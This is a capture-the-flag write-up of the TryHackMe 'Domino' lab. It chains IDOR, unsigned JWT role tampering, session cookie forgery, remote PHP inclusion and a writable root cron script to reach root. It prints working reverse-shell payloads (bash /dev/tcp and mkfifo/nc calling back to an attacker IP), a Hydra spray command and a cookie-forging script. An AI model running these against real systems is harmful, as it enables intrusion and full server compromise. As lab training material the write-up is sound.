# TryHackMe - Domino

## Overview

**Room:** Domino  
**Platform:** TryHackMe  
**Difficulty:** - Medium  
**Focus:** Web Enumeration, IDOR, JWT, Authentication Bypass, Arbitrary File Read, Session Forgery, RCE, Reverse Shell, Lateral Movement, Cron Privilege Escalation

---

## Attack Path

The compromise followed this chain:

```text
Nmap Enumeration
        ↓
Web Application Discovery
        ↓
Backup File Discovery
        ↓
Encryption Key Disclosure
        ↓
Employee Username Enumeration
        ↓
Password Spraying
        ↓
Initial User Access
        ↓
IDOR → Admin User Information
        ↓
JWT Authentication Bypass
        ↓
Arbitrary File Read
        ↓
Application Secrets Disclosure
        ↓
Session Cookie Forgery
        ↓
Admin Panel Access
        ↓
JWT Privilege Escalation
        ↓
Arbitrary PHP Execution / RCE
        ↓
Reverse Shell
        ↓
devops User
        ↓
Cron Job Enumeration
        ↓
Writable Root-Owned Script
        ↓
Cron Privilege Escalation
        ↓
Root
```

---

# 1. Initial Enumeration

I started by performing a standard Nmap service and version scan against the target:

```bash
nmap -sC -sV <TARGET_IP>
```

The scan identified two particularly interesting services:

- **Port 22/tcp** - SSH
- **Port 80/tcp** - HTTP



The HTTP service hosted an employee login portal, so I focused the initial enumeration on the web application.

---

# 2. Web Application Enumeration

After manually inspecting the web application, I did not immediately find a useful entry point. I therefore moved on to directory enumeration using Gobuster.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

The scan discovered several interesting paths:

```text
/admin
/api
/backup
/index.php
/javascript
/static
/support
```



The `/backup` directory immediately stood out because backups frequently contain configuration files, credentials, or other sensitive information.

---

# 3. Backup Configuration Discovery

Navigating to:

```text
http://<TARGET_IP>/backup
```



revealed two files:

```text
README.txt
config.enc
```

The `README.txt` file contained the following information:

```text
NexusCorp Backup Configuration
================================
config.enc  - Encrypted application configuration (AES-128-ECB)
Decryption key reference: see static/app.js (deployment notes)
```

This gave me a direct lead: the encryption key was referenced in the application's JavaScript.

I inspected:

```text
/static/app.js
```

and found:

```javascript
// Encryption key for backup config decryption - AES-ECB-128
// Key: <REDACTED>  (pad to 16 bytes with  )
_backupKey: <REDACTED>,
```

The application had therefore exposed the key required to decrypt its supposedly protected backup configuration.

### Finding

**Sensitive encryption key disclosure**

The AES key was hardcoded inside a publicly accessible JavaScript file.

---

# 4. Employee Username Enumeration

I continued enumerating the application and found:

```text
/team.php
```



The page disclosed a list of employee usernames:

```text
laura.hayes
micheal.chen
sarah.johnson
robert.wilson
emma.taylor
david.brown
james.wright
```

I saved these usernames into:

```text
users.txt
```

The exposed employee directory provided a useful username list for authentication testing.

---

# 5. Password Spraying

With the usernames identified, I saved them to `users.txt` and performed a password spray against the login service using Hydra and the `rockyou.txt` wordlist.

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou_top10.txt <TARGET_IP> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed" -V
```

This identified valid credentials for:

```text
Username: sarah.johnson
Password: <REDACTED>
```

The I used these credentials to authenticate to the employee portal

Sarah's account was a standard user account and did not initially provide administrative privileges.

---

# 6. IDOR - Horizontal Privilege Escalation

After logging in as `sarah.johnson`, I inspected the dashboard and its available functionality. Under the **Quick Links** section, I found:

```text
Support Tickets
Open Tickets
My Profile API
```

After navigating through these links, I discovered an IDOR vulnerability in the My Profile API, which used a numeric  ID to identify user profiles.


My authenticated profile was accessible through:

```text
/users/profile.php?id=3
```

Since the application was using a predictable numeric identifier, I tested whether changing the ID would allow me to access another user's profile.

I changed the ID from 3 to 1:

```text
/users/profile.php?id=1
```

This returned the profile belonging to:

```text
laura.hayes
```

Laura was the administrator.



This confirmed that the application did not properly enforce authorization checks when accessing user profiles. A normal authenticated user could therefore access another user's information simply by modifying the object identifier in the URL.

This is a classic Insecure Direct Object Reference (IDOR) vulnerability, resulting in horizontal privilege escalation.

The API profile for Laura also contained notes associated with her account. Inside Laura's notes, I found the first flag:

notes : "THM{REDACTED}"

### Vulnerability

**IDOR / Broken Access Control**

The application trusted the user-supplied `id` parameter without verifying that the authenticated user was authorized to access the requested account.

---

# 7. JWT Enumeration

While reviewing Sarah's portal, I found another section called **File Viewer**.

The File Viewer provided the following information:

```text
Access internal documents via the secure file API.
Endpoint: /api/files.php?name=
Requires JWT authentication via /api/auth/token.php
```

I first accessed:

```text
/api/files.php
```

The application returned:

```text
error    "JWT token required. Get one from /api/auth/token.php"
```

The response directed me to `/api/auth/token.php`, so I accessed the endpoint and received a JWT together with its expiration time and usage instructions:

```text
token        "<JWT_TOKEN>"
expires_in   3600
note         "Use this token as: Authorization: Bearer <token> for /api/files.php"
```

The JWT followed the standard structure:

```text
header.payload.signature
```

I then opened `/api/files.php` and captured the request using **Burp Suite Proxy**, before sending it to **Burp Suite Repeater** for further testing.

I added the token to the request using the `Authorization` header:

```http
Authorization: Bearer <JWT_TOKEN>
```

I also supplied the `name` parameter, targeting the application's configuration file:

```http
GET /api/files.php?name=/var/www/html/config.php HTTP/1.1
```



The request was processed, but the application denied access because my account did not have administrator privileges.

This indicated that the JWT was being used to determine the authorization level of the authenticated user.

---

# 8. JWT Signature Validation Bypass

I inspected the JWT payload using **CyberChef**:

```json
{
  "sub": "sarah.johnson",
  "role": "user",
  "iat": 1791353417,
  "exp": 1791357017
}
```

The `role` parameter immediately stood out.

Before modifying the role, I tested whether the application was properly validating the JWT signature by altering the signature portion of the token and sending the request again.

The application continued processing the modified token instead of rejecting it because of an invalid signature.

This indicated that the server was not properly validating the JWT's cryptographic integrity.

I then changed:

```json
"role": "user"
```

to:

```json
"role": "admin"
```

I encoded the modified payload and replaced the original payload section of the JWT.

I then replaced the JWT in the existing `Authorization` header and resent the same request:

```http
GET /api/files.php?name=/var/www/html/config.php HTTP/1.1
```

The application accepted the modified JWT and returned the contents of `config.php`.



The configuration contained several sensitive values:

```php
{"file":"\/var\/www\/html\/config.php","content":"<?php\ndefine('DB_HOST', 'localhost');\ndefine('DB_NAME', 'nexusdb');\ndefine('DB_USER', 'app_user');\ndefine('DB_PASS', <REDACTED>);\ndefine('JWT_SECRET', <REDACTED>);\ndefine('APP_SECRET', <REDACTED>);\n\nfunction get_db() {\n    $pdo = new PDO('mysql:host='.DB_HOST.';dbname='.DB_NAME, DB_USER, DB_PASS);\n    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);\n    return $pdo;\n}\n?>\n"}
```

The important information extracted from the configuration was:

- **Database host:** `localhost`
- **Database name:** `nexusdb`
- **Database user:** `app_user`
- **Database password:** `<REDACTED>`
- **JWT secret:** `<REDACTED>`
- **Application secret:** `<REDACTED>`

This confirmed that the JWT manipulation had allowed me to bypass the application's authorization controls and access a sensitive configuration file that was previously restricted.

### Vulnerability

**JWT authentication/authorization bypass**

The application failed to properly validate the integrity of the JWT before trusting the authorization claims contained within it. By modifying the `role` claim from `user` to `admin`, I was able to obtain administrator-level access to functionality that was previously restricted.

---

# 9. Arbitrary File Read

The previous step demonstrated that the `/api/files.php` endpoint could be used to read files accessible to the application once the authorization check was bypassed.

The configuration file disclosed several secrets, including the database credentials, JWT signing secret, and application secret. These credentials provided additional avenues for attacking the application and would become relevant to the next stage of the compromise.

---

# 10. Forging the Application Session

The configuration file disclosed the application's:

```text
APP_SECRET
```

This secret was used to generate the application's session cookie, meaning it could potentially be used to forge a valid authenticated session.

I created a Python script called `cookie_forger.py` to generate a new session value using the exposed application secret:

```python
import hmac
import hashlib
import base64
import json

secret = b'<APP_SECRET>'

payload = json.dumps(
    {
        "user_id": 1,
        "username": "laura.hayes",
        "role": "admin"
    },
    separators=(',', ':')
)

b64 = base64.b64encode(payload.encode()).decode()

sig = hmac.new(
    secret,
    b64.encode(),
    hashlib.sha256
).hexdigest()

print(f"{b64}.{sig}")
```

I ran the script and obtained a new signed session value containing the following forged identity:

```text
user_id: 1
username: laura.hayes
role: admin
```



I then returned to Sarah's dashboard in the browser and opened **Developer Tools**.

Under **Storage → Cookies**, I located the application's existing session cookie. I replaced the original session cookie value with the forged session value generated by `cookie_forger.py`.

I refreshed the page, and the application accepted the forged session.

The application now identified me as:

```text
laura.hayes
```

and provided administrative access.



A new **Admin** panel was also visible in the application's interface.

The second flag was located in this administrative functionality:

```text
System Status
Internal reference: THM{REDACTED}
```

---

# 11. Administrative JWT

With the forged administrator session established, I returned to:

```text
/api/auth/token.php
```

The endpoint issued a new JWT associated with the administrator session.

I inspected the new token and found that, despite the session being associated with `laura.hayes`, the JWT payload still contained:

```json
{
  "sub": "laura.hayes",
  "role": "user"
}
```

The JWT therefore still identified the account as a normal user.

Because the application's JWT signature validation had already been shown to be vulnerable, I decoded the payload using **CyberChef** and changed:

```json
"role": "user"
```

to:

```json
"role": "admin"
```

I encoded the modified payload and replaced the original payload in the JWT.

I then returned to **Burp Suite Proxy**, captured a request to `/api/files.php` using the new administrator session, and sent it to **Burp Suite Repeater**.

In Repeater, I added the forged JWT to the request:

```http
Authorization: Bearer <JWT_TOKEN>
```

The modified administrator JWT was now ready to be used against the file API.

---

# 12. Arbitrary PHP Execution / RCE

With the forged administrator JWT in place, I investigated whether the file API could be abused to retrieve and execute a PHP file from an external server.

I created a PHP file called:

```text
exploit.php
```

containing:

```php
<?php
system('cat /opt/flag3.txt');
?>
```

I then hosted the file from my AttackBox using a Python HTTP server:

```bash
python3 -m http.server 8000
```

I used the vulnerable file API to instruct the application to retrieve my hosted PHP file.

In Burp Suite Repeater, the request was modified to:

```http
GET /api/files.php?name=http://<ATTACKER_IP>:8000/exploit.php HTTP/1.1
```



The request also contained the forged administrator JWT:

```http
Authorization: Bearer <JWT_TOKEN>
```

The application successfully retrieved the PHP file from my Python server and processed it.

The output of the PHP command was returned in the response, revealing the contents of:

```text
/opt/flag3.txt
```



This confirmed that the file API was not limited to reading local files. It could also retrieve a PHP file from an attacker-controlled server and execute the code contained within it.

The third flag was:

```text
THM{REDACTED}
```

This established **remote code execution (RCE)** on the target system.

---

# 13. Obtaining a Reverse Shell

With RCE confirmed, I modified the `exploit.php` payload to establish a reverse shell instead of simply reading `/opt/flag3.txt`.

Everything else remained the same: the PHP file was still hosted from my AttackBox, and the vulnerable `/api/files.php` endpoint was still used with the forged administrator JWT.

I replaced the previous PHP payload with:

```php
<?php
system('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1"');
?>
```

I started a Netcat listener:

```bash
nc -lnvp 443
```

I then hosted the malicious PHP file:

```bash
python3 -m http.server 8000
```

Using Burp Suite Repeater, I requested the remote PHP file through the vulnerable API while supplying the modified administrator JWT.

The server downloaded and executed the PHP payload.

My listener received the connection, giving me a shell on the target.



This confirmed that the previously demonstrated file retrieval vulnerability could be escalated from arbitrary PHP execution to an interactive reverse shell.

---

# 14. Pivoting to the DevOps User

The initial reverse shell was functional but had a limited terminal interface, so I first upgraded it to a more usable Bash shell using Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I then began enumerating the local system and identified the `devops` user's home directory:

```text
/home/devops
```

Earlier in the attack chain, I had obtained the application's `config.php` through the JWT authorization bypass and arbitrary file-read vulnerability.The configuration file exposed a database password through the DB_PASS value.

I tested this previously discovered `DB_PASS` credential against the local `devops` account using:

```bash
su devops
```

When prompted for the password, I entered the previously discovered `DB_PASS` credential:

```text
<REDACTED>
```

The authentication was successful, and I was now operating as the `devops` user.

I then moved into the user's home directory:

```bash
cd /home/devops
```

and listed its contents:

```bash
ls
```

The directory contained:

```text
user.txt
```

I read the file:

```bash
cat user.txt
```



which revealed the next flag:

```text
THM{REDACTED}
```

This demonstrated that the `DB_PASS` credential exposed through the earlier configuration-file disclosure had been reused for the local `devops` system account.

The exact reason the same password was used for both the database account and the `devops` system account was not established during enumeration. However, the password reuse provided a direct path from the compromised web application to the local `devops` user.
---

# 15. Investigating Privilege Escalation

After obtaining access as the `devops` user, I began looking for a way to escalate my privileges to `root`.

I used `pspy64` to monitor processes running on the system and identify scheduled tasks.

While monitoring the system, I observed the following script being executed approximately once every minute:

```text
/opt/monitoring/health_report.sh
```

I then checked the permissions of the script:

```bash
ls -l /opt/monitoring/health_report.sh
```

The result was:

```text
-rwxrwxr-- 1 root devops 537 Oct 6 11:52 health_report.sh
```



The important details were the ownership and group permissions:

```text
root devops
```

The file was owned by `root`, but its group was `devops`. Since my current account was also a member of the `devops` group, I had group write permissions to the script.

The script was also being executed by `root` approximately once every minute.

This created a straightforward **cron-based privilege escalation** path: I could modify a script that was executed with `root` privileges.

---

# 16. Cron Job Privilege Escalation

I replaced the contents of:

```text
/opt/monitoring/health_report.sh
```

with a reverse shell payload:

```bash
rm -f /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4445 > /tmp/f
```

I then opened another Netcat listener on my AttackBox:

```bash
nc -lnvp 4445
```

Because the cron job executed `health_report.sh` as `root`, I waited for the next scheduled execution.

After approximately one minute, the listener received a connection.

The resulting shell was running with `root` privileges, confirming successful privilege escalation.

---

# 17. Root

With a root shell established, I accessed the root user's flag:

```bash
cat /root/root.txt
```



The final flag was:

> **Flag 5:** `THM{REDACTED}`

This completed the compromise, from initial web enumeration through authentication and authorization bypass, remote code execution, a reverse shell, lateral movement to the `devops` user, and finally privilege escalation to `root`.

---

# Attack Chain Summary

The complete attack path I followed to compromise the Domino machine was:

```text
Nmap service enumeration
        ↓
Web application discovery
        ↓
Gobuster directory enumeration
        ↓
/backup disclosure
        ↓
AES-128-ECB key reference
        ↓
Hardcoded encryption key exposed in app.js
        ↓
Employee username enumeration via team.php
        ↓
Password spraying
        ↓
Sarah Johnson account compromise
        ↓
IDOR in the profile functionality
        ↓
Laura Hayes administrator profile
        ↓
First flag
        ↓
File Viewer reveals internal file API
        ↓
JWT token acquisition
        ↓
JWT signature validation bypass
        ↓
Role manipulation: user → admin
        ↓
Arbitrary file read
        ↓
config.php disclosure
        ↓
Application secrets exposed
        ↓
APP_SECRET obtained
        ↓
Forged Laura administrator session
        ↓
Administrator panel access
        ↓
Second flag
        ↓
Administrator JWT acquisition
        ↓
Administrator JWT role manipulation
        ↓
Arbitrary PHP execution
        ↓
Remote Code Execution
        ↓
Third flag
        ↓
Reverse shell
        ↓
devops account via password reuse
        ↓
Fourth flag
        ↓
pspy64 process monitoring
        ↓
Root cron job discovered
        ↓
Writable root-owned health_report.sh
        ↓
Cron-based privilege escalation
        ↓
Root shell
        ↓
Fifth flag
```

---

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Directory/File Enumeration | Exposed sensitive application functionality and the `/backup` directory |
| Hardcoded Encryption Key | Allowed the encrypted backup configuration to be decrypted |
| Employee Username Enumeration | Provided a valid username list for credential attacks |
| Weak Password | Enabled compromise of the Sarah Johnson account through password spraying |
| IDOR | Allowed a low-privileged user to access another user's profile, including the administrator's profile |
| Improper JWT Signature Validation | Allowed the JWT payload to be modified without a valid signature |
| JWT Role Manipulation | Allowed a normal user token to be treated as an administrator token |
| Arbitrary File Read | Allowed server-side files such as `config.php` to be read |
| Exposed Application Secrets | Disclosed secrets including the application session secret |
| Session Cookie Forgery | Allowed an administrator application session to be forged |
| Insufficient Administrative Authorization | Enabled further access to administrative functionality and administrator JWTs |
| Arbitrary PHP Execution | Allowed a remotely hosted PHP file to be retrieved and executed |
| Remote Code Execution | Provided command execution on the target server |
| Weak Credential Reuse | Allowed the exposed database password to be reused for the `devops` system account |
| Writable Root Cron Script | Allowed the `devops` user to modify a script executed by root |
| Cron Privilege Escalation | Allowed execution of a reverse shell with root privileges |

---

# Lessons Learned

The Domino attack chain demonstrates how multiple weaknesses across different security boundaries can be chained into a complete compromise.

The initial access did not require a sophisticated exploit. Web enumeration exposed the /backup directory, which disclosed information pointing to the application's encryption key. The key was hardcoded in static/app.js, allowing the protected backup configuration to be compromised. Separately, employee usernames were exposed through the application's team functionality, and weak password controls allowed one of those accounts to be compromised through password spraying.

After obtaining access as Sarah, an IDOR allowed access to Laura Hayes' administrator profile. The authenticated application then exposed its internal file API and JWT authentication functionality. The JWT implementation failed to properly validate the token signature, allowing the role claim to be changed from user to admin.

The forged JWT provided access to the arbitrary file-read functionality. Reading config.php exposed application configuration and secrets, including the secret used to generate application session cookies. That secret allowed an administrator session for Laura Hayes to be forged, providing access to the administrator panel.

From the administrator context, another JWT could be obtained. The same JWT signature-validation weakness allowed the administrator token to be manipulated, and the file API could then be abused to retrieve and execute a remotely hosted PHP file. This resulted in remote code execution on the target and provided the initial shell access. The RCE was then used to obtain a reverse shell.

After obtaining shell access, the exposed database password was also accepted as the password for the devops system account. This password reuse allowed the compromise to move from the web application to a local user account, where the fourth flag was retrieved.

As devops, pspy64 was used to monitor running processes and identify a recurring root cron job executing /opt/monitoring/health_report.sh. The script was owned by root but writable by members of the devops group. Because devops could modify a script that was executed by root, the script could be modified to execute a reverse shell. When the cron job ran, the connection was received with root privileges, completing the privilege escalation and providing access to the final flag.

The main lesson from Domino is that security boundaries must be enforced consistently across the entire application and host. Weak credential controls, information disclosure, broken access control, insecure JWT validation, exposed secrets, unsafe file handling, remote code execution, credential reuse and incorrect filesystem permissions each contributed to the final compromise. Individually, some of these weaknesses might have resulted in limited impact; chained together, they enabled a progression from an unauthenticated web application to complete root-level control of the system.